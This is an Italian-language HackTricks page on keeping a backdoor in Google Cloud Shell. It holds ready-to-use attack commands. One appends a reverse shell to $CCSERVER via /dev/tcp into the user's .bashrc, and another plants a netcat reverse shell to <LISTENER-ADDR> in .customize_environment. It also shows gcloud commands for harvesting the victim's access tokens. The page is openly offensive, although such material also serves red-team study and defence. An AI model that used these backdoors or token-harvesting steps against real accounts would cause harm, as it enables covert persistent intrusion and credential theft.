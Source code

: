 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Per ulteriori informazioni controlla:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) ti fornisce accesso alla riga di comando alle tue risorse cloud direttamente dal tuo browser senza alcun costo associato.

Puoi accedere al Cloud Shell di Google dalla **console web** o eseguendo **`gcloud cloud-shell ssh`**.

Questa console ha alcune capacità interessanti per gli attaccanti:

1. **Qualsiasi utente Google con accesso a Google Cloud** ha accesso a un'istanza di Cloud Shell completamente autenticata (anche gli Account di Servizio, essendo Proprietari dell'organizzazione).
2. Detto istanza **mantenere la sua home directory per almeno 120 giorni** se non si verifica alcuna attività.
3. Non ci sono **capacità per un'organizzazione di monitorare** l'attività di quell'istanza.

Questo significa fondamentalmente che un attaccante può mettere una backdoor nella home directory dell'utente e finché l'utente si connette al GC Shell almeno ogni 120 giorni, la backdoor sopravvivrà e l'attaccante otterrà una shell ogni volta che viene eseguita semplicemente facendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

C'è un altro file nella cartella home chiamato **`.customize_environment`** che, se esiste, verrà **eseguito ogni volta** che l'utente accede al **cloud shell** (come nella tecnica precedente). Basta inserire il backdoor precedente o uno simile al seguente per mantenere la persistenza finché l'utente utilizza "frequentemente" il cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
È importante notare che la **prima volta che viene eseguita un'azione che richiede autenticazione**, appare una finestra di autorizzazione pop-up nel browser dell'utente. Questa finestra deve essere accettata prima che il comando possa essere eseguito. Se appare un pop-up inaspettato, potrebbe suscitare sospetti e potenzialmente compromettere il metodo di persistenza utilizzato.
{% endhint %}

Questo è il pop-up dall'esecuzione di `gcloud projects list` dalla cloud shell (come attaccante) visualizzato nella sessione utente del browser:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Tuttavia, se l'utente ha utilizzato attivamente la cloudshell, il pop-up non apparirà e puoi **raccogliere i token dell'utente con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Come viene stabilita la connessione SSH

Fondamentalmente, vengono utilizzate queste 3 chiamate API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ti farà aggiungere la tua chiave pubblica che hai creato localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (ti farà avviare l'istanza)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (ti dirà l'ip del google cloud shell)

Ma puoi trovare ulteriori informazioni in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Riferimenti

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
